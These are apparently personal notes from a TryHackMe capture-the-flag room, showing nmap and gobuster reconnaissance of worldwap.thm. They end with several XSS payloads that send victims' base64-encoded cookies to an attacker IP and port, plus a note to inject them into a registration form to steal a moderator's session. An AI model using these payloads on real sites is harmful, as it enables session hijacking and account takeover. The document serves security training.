 <code>
https://tryhackme.com/r/room/whatsyourname

### Enumeration
                                                                                                                 
┌──(kali㉿kali)-[~]
└─$ nmap -sV -A worldwap.thm     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-07 04:46 EST
Nmap scan report for worldwap.thm (10.10.133.78)
Host is up (0.036s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 19:17:91:7b:c7:75:e2:35:74:31:c9:34:8d:5f:c0:84 (RSA)
|   256 e7:3c:be:15:d0:ab:cc:10:93:de:1d:e9:bf:46:24:52 (ECDSA)
|_  256 11:1a:26:ec:d1:eb:56:dd:d4:b7:11:41:87:5f:b6:26 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Welcome
|_Requested resource was /public/html/
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.78 seconds

┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://worldwap.thm -x php,txt,html 
/.php                 (Status: 403) [Size: 277]
/index.php            (Status: 302) [Size: 0] [--> /public/html/]
/.html                (Status: 403) [Size: 277]
/public               (Status: 301) [Size: 313] [--> http://worldwap.thm/public/]
/api                  (Status: 301) [Size: 310] [--> http://worldwap.thm/api/]
/javascript           (Status: 301) [Size: 317] [--> http://worldwap.thm/javascript/]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://worldwap.thm/phpmyadmin/]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]

┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://login.worldwap.thm -x php,txt,html 

/.php                 (Status: 403) [Size: 283]
/.html                (Status: 403) [Size: 283]
/index.php            (Status: 200) [Size: 70]
/login.php            (Status: 200) [Size: 3108]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/clear.php            (Status: 200) [Size: 4]
/assets               (Status: 301) [Size: 325] [--> http://login.worldwap.thm/assets/]
/chat.php             (Status: 302) [Size: 0] [--> login.php]
/db.php               (Status: 200) [Size: 0]
/javascript           (Status: 301) [Size: 329] [--> http://login.worldwap.thm/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/setup.php            (Status: 200) [Size: 149]
/block.php            (Status: 200) [Size: 15]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 329] [--> http://login.worldwap.thm/phpmyadmin/]
/.html                (Status: 403) [Size: 283]
/.php                 (Status: 403) [Size: 283]
/change_password.php  (Status: 302) [Size: 4] [--> login.php]
/server-status        (Status: 403) [Size: 283]
Progress: 882240 / 882244 (100.00%)


                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://worldwap.thm:8081 -x php,txt,html 

/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/index.php            (Status: 200) [Size: 70]
/login.php            (Status: 200) [Size: 3108]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/clear.php            (Status: 200) [Size: 4]
/assets               (Status: 301) [Size: 320] [--> http://worldwap.thm:8081/assets/]
/chat.php             (Status: 302) [Size: 0] [--> login.php]
/db.php               (Status: 200) [Size: 0]
/javascript           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/setup.php            (Status: 200) [Size: 149]
/block.php            (Status: 200) [Size: 15]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/phpmyadmin/]
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/change_password.php  (Status: 302) [Size: 4] [--> login.php]
/server-status        (Status: 403) [Size: 279]



<script>fetch('http://10.9.1.66:8000/?cookie=' + btoa(document.cookie));</script>
<script>var i=new Image(); i.src="https//10.9.1.66:8000/?cookie="+btoa(document.cookie);</script>        
<script>var i=new Image; i.src='http://<IP>:<PORT>/?'+document.cookie;</script>
<script>var i=new Image(); i.src="http://10.9.1.159:8000/?cookie="+btoa(document.cookie);</script>      
<script>var i=new Image(); i.src="http://10.9.1.159:8000/?cookieX="+btoa(document.cookie);</script>  

Steal cookie by inserting to registration form.

get moderator cookie.

  
<\code>
